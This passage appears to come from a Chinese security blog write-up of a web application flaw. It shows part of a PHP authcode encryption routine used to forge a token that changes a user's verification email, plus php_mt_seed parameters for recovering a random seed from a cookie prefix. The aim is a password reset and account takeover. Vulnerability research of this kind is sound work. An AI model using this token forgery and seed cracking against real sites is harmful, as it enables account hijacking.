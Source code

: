 ```
	for($i = 0; $i <= 255; $i++) {
		$rndkey[$i] = ord($cryptkey[$i % $key_length]);
	}

	for($j = $i = 0; $i < 256; $i++) {
		$j = ($j + $box[$i] + $rndkey[$i]) % 256;
		$tmp = $box[$i];
		$box[$i] = $box[$j];
		$box[$j] = $tmp;
	}

	for($a = $j = $i = 0; $i < $string_length; $i++) {
		$a = ($a + 1) % 256;
		$j = ($j + $box[$a]) % 256;
		$tmp = $box[$a];
		$box[$a] = $box[$j];
		$box[$j] = $tmp;
		$result .= chr(ord($string[$i]) ^ ($box[($box[$a] + $box[$j]) % 256]));
	}

	if($operation == 'DECODE') {
		if((substr($result, 0, 10) == 0 || substr($result, 0, 10) - time() > 0) && substr($result, 10, 16) == substr(md5(substr($result, 26).$keyb), 0, 16)) {
			return substr($result, 26);
		} else {
			return '';
		}
	} else {
		return $keyc.str_replace('=', '', base64_encode($result));
	}

}

echo authcode("3\ttest@success.com\t1503556905", 'ENCODE', md5(substr(md5("5e684ceqNxuCvmoK"), 0, 16)));
```

访问hash页面，我们可以看到验证邮箱已经被修改了，接下来我们可以直接通过忘记密码来修改当前用户的密码。
![image.png-52kB][10]

# 漏洞复现 #

打开页面
![image.png-193.7kB][11]

获取cookie随机数4位前缀：sW7c

生成php_mt_seed参数格式：0 61 0 61 0 61 0 61 0 61 0 61 0 61 0 61 0 61 0 61 0 61 0 61 0 61 0 61 0 61 0 61 0 61 0 61 0 61 0 61 54 54 0 61 22 22 0 61 33 33 0 61 38 38 0 61


  [1]: https://lorexxar-blog.oss-cn-shanghai.aliyuncs.com/zybuluo-backup/LoRexxar/27by3pv6j16qauhgebbrapvr/image.png
  [2]: https://lorexxar-blog.oss-cn-shanghai.aliyuncs.com/zybuluo-backup/LoRexxar/vd44ejapmbdfwnq8z8vklxb1/image.png
  [3]: https://lorexxar-blog.oss-cn-shanghai.aliyuncs.com/zybuluo-backup/LoRexxar/4q78iyn4bndzmtarrcrk43wn/image.png
  [4]: https://lorexxar-blog.oss-cn-shanghai.aliyuncs.com/zybuluo-backup/LoRexxar/737c9gqg6cdtlo4aryxpnxwe/image.png
  [5]: https://lorexxar-blog.oss-cn-shanghai.aliyuncs.com/zybuluo-backup/LoRexxar/fu70qeqhk55gw55xm0qwkbk2/image.png
  [6]: https://lorexxar-blog.oss-cn-shanghai.aliyuncs.com/zybuluo-backup/LoRexxar/fdmabv7avbqd1w5libd3j0g3/image.png
  [7]: https://lorexxar-blog.oss-cn-shanghai.aliyuncs.com/zybuluo-backup/LoRexxar/cipp76y0aw4wz33z3c7ambth/image.png
  [8]: https://lorexxar-blog.oss-cn-shanghai.aliyuncs.com/zybuluo-backup/LoRexxar/fmwrfzfbm4jjrv1nsm8e92r0/image.png
  [9]: https://lorexxar-blog.oss-cn-shanghai.aliyuncs.com/zybuluo-backup/LoRexxar/n882uz5x3qrymr6ljsb89brm/image.png
  [10]: https://lorexxar-blog.oss-cn-shanghai.aliyuncs.com/zybuluo-backup/LoRexxar/dgu0bdnhje2u2caxy0q5bmgs/image.png
  [11]: https://lorexxar-blog.oss-cn-shanghai.aliyuncs.com/zybuluo-backup/LoRexxar/4q78iyn4bndzmtarrcrk43wn/image.png
  [12]: https://lorexxar-blog.oss-cn-shanghai.aliyuncs.com/zybuluo-backup/LoRexxar/ivok9agi1lurxhe4xkst4vyj/image.png
  [13]: https://lorexxar-blog.oss-cn-shanghai.aliyuncs.com/zybuluo-backup/LoRexxar/cipp76y0aw4wz33z3c7ambth/image.png
  [14]: https://lorexxar-blog.oss-cn-shanghai.aliyuncs.com/zybuluo-backup/LoRexxar/jeddzeumksc2zm7ioph0ybk3/image.png
  [15]: https://lorexxar-blog.oss-cn-shanghai.aliyuncs.com/zybuluo-backup/LoRexxar/g0fipnw0vrrsojjmnfsc9mtg/image.png
  [16]: https://lorexxar-blog.oss-cn-shanghai.aliyuncs.com/zybuluo-backup/LoRexxar/vl37a7f8giy88mbhndxkbb9x/image.png